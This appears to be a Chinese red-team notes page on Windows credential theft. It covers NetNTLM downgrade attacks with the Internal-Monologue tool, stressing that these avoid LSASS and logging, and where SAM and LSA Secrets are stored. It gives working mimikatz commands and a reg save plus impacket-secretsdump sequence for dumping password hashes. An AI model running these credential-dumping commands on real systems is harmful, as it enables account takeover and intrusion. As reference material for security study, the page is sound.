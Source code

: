 ### mimikatz

- [mimikatz](../../安全工具/mimikatz.md)

---

### 加密降级攻击

`NetNTLM Downgrade Attacks`

**相关文章**
- [Post Exploitation Using NetNTLM Downgrade Attacks](https://www.optiv.com/explore-optiv-insights/blog/post-exploitation-using-netntlm-downgrade-attacks)

**相关工具**
- [eladshamir/Internal-Monologue](https://github.com/eladshamir/Internal-Monologue) - NetNTLM Downgrade Attacks, 通过 SSPI 调⽤ NTLM 身份验证，通过协商使⽤预定义 challenge 降级为 NetNTLMv1，获取到 NetNTLMv1 hash。⽽ NetNTLMv1 hash 可以短时间内使⽤彩虹表去破解。这种情况可以在不接触 LSASS 的情况下检索 NTLM 哈希。可以说比运行 Mimikatz 更隐秘，因为不需要向受保护的进程注入代码或从受保护的进程中转储内存。由于 NetNTLMv1 响应是通过在本地与 NTLMSSP 进行交互而引发的，因此不会生成网络流量，并且所选择的挑战也不容易看到。没有成功的 NTLM 身份验证事件记录在日志中。
    ```
    InternalMonologue -Downgrade False -Restore False -Impersonate True -Verbose False -Challenge 1122334455667788
    ```

    ![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/3.png)

    如果以普通用户权限执行 InternalMonologue，能够获得当前用户权限的 Net-NTLMv2 数据包，通过 hashcat 进行破解，能获得当前用户的明文口令

---

### SAM & LSA Secrets

在 Windows 系统中本机的用户密码以 hash 形式存储在 `%SystemRoot%\system32\config\sam` 数据库文件中。

LSA Secrets 存储 PC 用户的文本密码、服务账户密码（例如，必须由某个用户运行才能执行某些任务的密码）、Internet Explorer 密码、RAS 连接密码、SQL 和 CISCO 密码、SYSTEM 账户密码、EFS 加密密钥等用户私人数据等等。

LSA Secrets 存储在注册表中：
```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

**mimikatz**
```
token::elevate
lsadump::secrets
```

**注册表 dump**
```
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam
reg save HKLM\SECURITY security

impacket-secretsdump -sam sam -security security -system system LOCAL
或
lsadump::secrets /system:system /security:security
```
